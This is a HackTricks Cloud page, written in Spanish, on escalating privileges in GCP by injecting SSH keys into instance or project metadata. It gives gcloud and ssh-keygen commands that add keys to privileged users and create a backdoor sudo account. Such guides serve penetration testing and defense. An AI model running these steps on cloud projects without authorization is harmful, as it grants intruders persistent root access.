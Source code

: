 # GCP - Agregar Metadatos SSH Personalizados

## GCP - Agregar Metadatos SSH Personalizados

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

### Modificando los metadatos <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modificación de metadatos en una instancia podría llevar a **riesgos de seguridad significativos si un atacante obtiene los permisos necesarios**.

#### **Incorporación de Claves SSH en Metadatos Personalizados**

En GCP, **los sistemas Linux** a menudo ejecutan scripts desde el [Entorno de Invitado de Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente crítico de esto es el [demonio de cuentas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que está diseñado para **verificar regularmente** el punto final de metadatos de la instancia en busca de **actualizaciones a las claves públicas SSH autorizadas**.

Por lo tanto, si un atacante puede modificar los metadatos personalizados, podría hacer que el demonio encuentre una nueva clave pública, que será procesada e **integrada en el sistema local**. La clave se añadirá al archivo `~/.ssh/authorized_keys` de un **usuario existente o potencialmente creando un nuevo usuario con privilegios `sudo`**, dependiendo del formato de la clave. Y el atacante podrá comprometer el host.

#### **Agregar clave SSH a un usuario privilegiado existente**

1. **Examinar Claves SSH Existentes en la Instancia:**
*   Ejecuta el comando para describir la instancia y sus metadatos para localizar las claves SSH existentes. La sección relevante en la salida estará bajo `metadata`, específicamente la clave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Presta atención al formato de las claves SSH: el nombre de usuario precede a la clave, separado por dos puntos.
2. **Preparar un Archivo de Texto para Metadatos de Clave SSH:**
* Guarda los detalles de los nombres de usuario y sus correspondientes claves SSH en un archivo de texto llamado `meta.txt`. Esto es esencial para preservar las claves existentes mientras se añaden nuevas.
3. **Generar una Nueva Clave SSH para el Usuario Objetivo (`alice` en este ejemplo):**
*   Usa el comando `ssh-keygen` para generar una nueva clave SSH, asegurándote de que el campo de comentario (`-C`) coincida con el nombre de usuario objetivo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Añade la nueva clave pública a `meta.txt`, imitando el formato encontrado en los metadatos de la instancia.
4. **Actualizar los Metadatos de Clave SSH de la Instancia:**
*   Aplica los metadatos de clave SSH actualizados a la instancia usando el comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Acceder a la Instancia Usando la Nueva Clave SSH:**
*   Conéctate a la instancia con SSH usando la nueva clave, accediendo a la shell en el contexto del usuario objetivo (`alice` en este ejemplo).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Crear un nuevo usuario privilegiado y agregar una clave SSH**

Si no se encuentra un usuario interesante, es posible crear uno nuevo que se le otorgarán privilegios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Claves SSH a nivel de proyecto <a href="#sshing-around" id="sshing-around"></a>

Es posible ampliar el alcance del acceso SSH a múltiples Máquinas Virtuales (VMs) en un entorno de nube al **aplicar claves SSH a nivel de proyecto**. Este enfoque permite el acceso SSH a cualquier instancia dentro del proyecto que no haya bloqueado explícitamente las claves SSH a nivel de proyecto. Aquí hay una guía resumida:

1. **Aplicar Claves SSH a Nivel de Proyecto:**
*   Utiliza el comando `gcloud compute project-info add-metadata` para agregar claves SSH desde `meta.txt` a los metadatos del proyecto. Esta acción asegura que las claves SSH sean reconocidas en todas las VMs del proyecto, a menos que una VM tenga habilitada la opción "Bloquear claves SSH a nivel de proyecto".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH en Instancias Usando Claves a Nivel de Proyecto:**
* Con las claves SSH a nivel de proyecto en su lugar, puedes SSH en cualquier instancia dentro del proyecto. Las instancias que no bloquean las claves a nivel de proyecto aceptarán la clave SSH, otorgando acceso.
* Un método directo para SSH en una instancia es usar el comando `gcloud compute ssh [INSTANCE]`. Este comando utiliza tu nombre de usuario actual y las claves SSH establecidas a nivel de proyecto para intentar el acceso.

## Referencias

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

